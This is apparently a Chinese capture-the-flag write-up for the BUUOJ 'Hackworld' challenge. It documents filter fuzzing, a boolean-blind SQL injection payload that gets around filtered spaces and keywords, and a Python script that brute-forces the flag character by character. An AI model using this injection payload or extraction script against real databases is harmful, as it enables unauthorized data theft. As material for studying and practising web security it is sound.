 ### buuoj_[CISCN2019 华北赛区]Hackworld

这个题首先随便输入几个数据，一共有一下几种输出

```
id=1
Hello, glzjin wants a girlfriend.
id=2
Do you want to be my girlfriend?
id=any other number
Error Occured When Fetch Result.
id=单引号 双引号 括号等	
bool(false) 
id=空格	#应该还有一些没有试出来，尝试fuzz一下
SQL Injection Checked.
```

fuzz 一下，初步估计

![](https://pic.imgdb.cn/item/611bb46d4907e2d39c7a4f7b.jpg)

or and union 空格 等等，都被过滤了，只有select from还有括号没被过滤，所以考虑使用函数

首先构造一下

```
if(ascii(substr((select(flag)from(flag)),0,1))=32,1,2)
```

可以看到返回了

```
Do you want to be my girlfriend?
```

那么证明这个方法是可行的，所以接下来就可以写脚本了

```python
import requests
import string

x = string.printable	#可打印的字符
flag = ""
url = "http://3a2a7f40-4a3b-4ae1-ad8c-8a7b504d7618.node4.buuoj.cn:81/index.php"
payload={
    "id" : ""
}
for i in range(0,60):	#长度，粗略估计flag长度最多不过60
    for j in x:
        #下面通过修改两个%s处的值，穷举出来
        payload["id"] = "if(ascii(substr((select(flag)from(flag)),%s,1))=%s,1,2)"%(str(i),ord(j))
        s = requests.post(url,data=payload)
        #这里，如果有hello说明返回的1，如果返回2的话，flag的值是一堆01010.。。。
        if "Hello" in s.text:
            flag += j
            print(flag)
            break
    if flag.endswith('}') :
        break
print(flag)
```

获得flag